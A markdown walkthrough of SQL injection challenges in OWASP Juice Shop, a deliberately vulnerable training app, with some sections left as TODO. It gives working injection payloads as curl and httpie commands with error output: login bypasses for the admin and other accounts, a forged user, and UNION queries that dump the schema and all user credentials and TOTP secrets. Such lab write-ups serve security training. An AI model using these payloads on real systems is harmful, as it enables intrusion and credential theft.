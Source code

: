 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)
* [NoSQL injection](https://portswigger.net/web-security/nosql-injection)

## Reconnaissance

Intercept all requests and look for a request with parameters to fuzz
```bash
# verify vulnerability
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Order the Christmas special offer of 2014

```bash
# find ProductId=10
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

TOKEN=<REDACTED>

curl http://juiceshop:3000/api/BasketItems/ \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"ProductId":10,"BasketId":"6","quantity":1}'
```

## Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns, add N static columns in order to match them and fix
# "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Log in with the (non-existing) accountant without ever registering that user

```bash
# trigger error
http http://juiceshop:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

# add static user to result
http http://juiceshop:3000/rest/user/login email="' UNION SELECT 999,'myUsername','acc0unt4nt@juice-sh.op','myPassword','accounting','','0.0.0.0','','','1','2023-10-28 15:47:25.395 +00:00','2023-10-28 15:47:25.395 +00:00','NULL' FROM Users'--"
```

## Log in with the administrator's user account

```bash
http http://juiceshop:3000/rest/user/login email="admin@juice-sh.op'--"
```

## Log in with Bender's user account

```bash
http http://juiceshop:3000/rest/user/login email="bender@juice-sh.op'--"
```

## Log in with Jim's user account

```bash
http http://juiceshop:3000/rest/user/login email="jim@juice-sh.op'--"
```

## Let the server sleep for some time

```bash
TODO
```

## All your orders are belong to us

```bash
TODO
```

## Update multiple product reviews at the same time

```bash
TODO
```

## Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```

## Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
